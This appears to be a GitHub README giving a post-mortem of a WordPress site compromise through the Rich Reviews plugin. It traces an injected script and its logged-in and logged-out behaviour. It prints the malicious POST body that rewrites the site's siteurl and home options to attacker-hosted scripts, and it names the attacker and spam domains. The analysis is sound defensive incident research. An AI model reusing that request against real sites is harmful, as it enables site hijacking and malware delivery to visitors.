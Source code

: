 # Belaterwashere

This repo represents some work done to understand an attack on a wordpress site.

## Current post mortem:

### Initial attack vector
- publicly disclosed vulnerability in the `Rich Reviews` plugin used on the word press site
  - Disclosure at Wordfence here: [https://www.wordfence.com/blog/2019/09/rich-reviews-plugin-vulnerability-exploited-in-the-wild/](https://www.wordfence.com/blog/2019/09/rich-reviews-plugin-vulnerability-exploited-in-the-wild/)
  - this allow the attacker to modify options to inject a script onto the page
  - the script then downloaded an additional payload from `https://capital.belaterbewasthere.com/len.php`
  - This script would detect whether the user was logged in or not and then perform further action
  - __Logged in__
    - `GET /wp-admin/options-general.php` on the current domain
      - identify and extract the `wpnonce` from the response (for CSRF)
    - `POST /wp-admin/options.php` on current domain
      - referrer set to `/wp-admin/options-general.php`
      - data is: 
      ```js
      {
        'action': "update",
        '_wpnonce': nonce,
        '_wp_http_referer': "/wp-admin/options-general.php",
        'option_page': "general",
        'siteurl': "https://bes.belaterbewasthere.com/reserv//t3.js?",
        'home': "https://bes.belaterbewasthere.com/reserv/a3.js?"
      },
      ```
      (note: `https://bes.belaterbewasthere.com/reserv//t3.js?` is not a typo)
    - `POST /wp-admin/admin-ajax.php` on current domain
      - data : `{"action": "fake", "permalink_structure": 1}`
    - Force page reload by appending `&reload=1` to `window.location`
  - __Not Logged in__
    - User page is stopped and redirected via `https://capital.belaterbewasthere.com/len.php?s=678&_id=129843478&utm=gfhklew45`
    - User navigated to a domain which pretends to be a human verification and askes the user to accept notifications
      - Two domains have been seen for this:
        - `https://redrelaxfollow.com`
        - `https://greenrelaxfollow.com`
      - Unsure as to the intended "attack" at this point. Possibly just advertisment injection at a later date.

## Additional notes

Multiple other sites have been hit with the same attack, as seen by a [quick google search](https://www.google.com/search?q=belaterbewasthere&oq=belaterbewasthere) or in the screenshot below:
<details>
    <summary><a href="./Assets/OtherAffectedPages.png"> Assets/OtherAffectedPages.png</a></summary>
    <img src=./Assets/OtherAffectedPages.png alt="Google search of malicious domain name"/>
</details>

## Contact
If you would like more information or just want to discuss things, feel free to ping me here or [on twitter](https://twitter.com/E314cRael)

Please feel free to use this "research" for discussions, content and further research, but please make an acknowledgement in the material and link here.
